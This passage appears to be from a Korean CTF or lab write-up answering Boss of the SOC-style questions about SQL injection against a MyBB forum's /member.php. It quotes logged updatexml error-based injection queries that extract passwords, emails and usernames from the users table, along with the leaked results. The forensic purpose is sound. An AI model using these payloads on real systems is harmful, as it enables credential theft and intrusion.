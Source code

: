 dest_content 필드의 내용을 보면 중간 SQL Injection의 흔적이 보입니다.

```
SELECT q.*, s.sid
			FROM mybb_questionsessions s
			LEFT JOIN mybb_questions q ON (q.qid=s.qid)
			WHERE q.active='1' AND s.sid='makman' and updatexml(NULL,concat (0x3a,(SUBSTRING((SELECT password FROM mybb_users ORDER BY UID LIMIT 5,1), 32, 31))),NULL) and '1'
```

/member.php uri에 SQL Injection 공격을 하고있는 것을 알 수 있습니다.

답 : /member.php

203	What SQL function is being abused on the uri path from question 202?  
문제 202의 uri 경로에서 어떤 SQL 함수가 남용되고 있습니까?

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>

문제 202에서 파악한 SQL에서 포함된 함수는 updatexml입니다.

답 : updatexml

204	What is Frank Ester's password salt value on www.brewertalk.com?  
www.brewertalk.com에서 Frank Ester의 비밀번호의 salt 값은 얼마입니까?

<details><summary>hint#1</summary></details>

<details><summary>hint#2</summary></details>

<details><summary>hint#3</summary></details>

<details><summary>hint#4</summary></details>

문제 202번에서 사용했던 쿼리에 키워드 'salt'를 추가해봅시다.

```
sourcetype=stream:http src_ip=45.77.65.211 uri_path=/member.php *frank* OR *ester*
```

dest_content필드의 중간 내용을 보면 username과 email을 알기위해 SQL injection 공격시도흔적이 보입니다.

```
1. 결과
<dt>SQL Error:</dt>
<dd>1105 - XPATH syntax error: ':frankesters47@gmail.com'</dd>
<dt>Query:</dt>
<dd>
			SELECT q.*, s.sid
			FROM mybb_questionsessions s
			LEFT JOIN mybb_questions q ON (q.qid=s.qid)
			WHERE q.active='1' AND s.sid='makman' and updatexml(NULL,concat (0x3a,(SELECT email FROM mybb_users ORDER BY UID LIMIT 0,1)),NULL) and '1'
		</dd>
2. 결과
<dt>SQL Error:</dt>
<dd>1105 - XPATH syntax error: ':frank'</dd>
<dt>Query:</dt>
<dd>
			SELECT q.*, s.sid
			FROM mybb_questionsessions s
			LEFT JOIN mybb_questions q ON (q.qid=s.qid)
			WHERE q.active='1' AND s.sid='makman' and updatexml(NULL,concat (0x3a,(SELECT username FROM mybb_users ORDER BY UID LIMIT 0,1)),NULL) and '1'
		</dd>

```
